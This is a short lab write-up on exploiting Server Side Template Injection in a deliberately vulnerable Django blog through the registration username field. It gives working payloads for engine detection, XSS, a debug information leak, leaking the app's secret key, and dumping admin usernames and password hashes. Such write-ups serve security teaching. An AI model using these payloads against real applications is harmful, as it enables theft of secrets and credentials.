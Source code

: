 # Server Side Template Injection

Observe the setting page [Setting Page](https://blog-vul.herokuapp.com/setting/), you can see that username is a dynamic content and displayed __Hi, Username__. So I try to test SSTI here.
![Web page display username](https://user-images.githubusercontent.com/83699106/132437761-05b5e2dc-98e0-4c50-8cb2-7e9e0c9c33b1.png)

## Solution
When I try to register an account. I realized it didn't control the username format and this web use Django framwork. So I can register an account with an special username.

###B1. Identify the underlying engine.
Python has some template engine such as Tornaldo, Jinja, Django. Now , sign up an account with username is a formula evaluation. 

`
{{ 7 * 7 }}
`

But it doesn't work. 
![image](https://user-images.githubusercontent.com/83699106/132441238-1b673cff-9fd0-4fd6-b0c1-d11cb83bec05.png)

Maybe it use Django template because DJT do not allow formula evaluation by default. Trying another payload.

`
{% debug %}

`

![image](https://user-images.githubusercontent.com/83699106/132442170-d95e57e5-9147-4592-bc53-ef614f8ca80d.png)
Successfully, It displayed debug content in username. 

### B2. Exploit

After indentify the template engine that it's using is DJT. We can exploit futher.

__Cross-site scripting__
```
{{ '<script>alert(3)</script>' }}
{{ '<script>alert(3)</script>' | safe }}

```

__Debug information leak__
```

{% debug %}

```

__Leaking app’s Secret Key__
```
{{ messages.storages.0.signer.key }}

```
__Admin username and password hash leak__
```
{% load log %}{% get_admin_log 10 as log %}{% for e in log %}
{{e.user.get_username}} : {{e.user.password}}{% endfor %}

```

To clear understand about SSTI attack and Ways to exploit Django template above. You can see [here](https://lifars.com/wp-content/uploads/2021/06/Django-Templates-Server-Side-Template-Injection-v1.0.pdf)
           
        
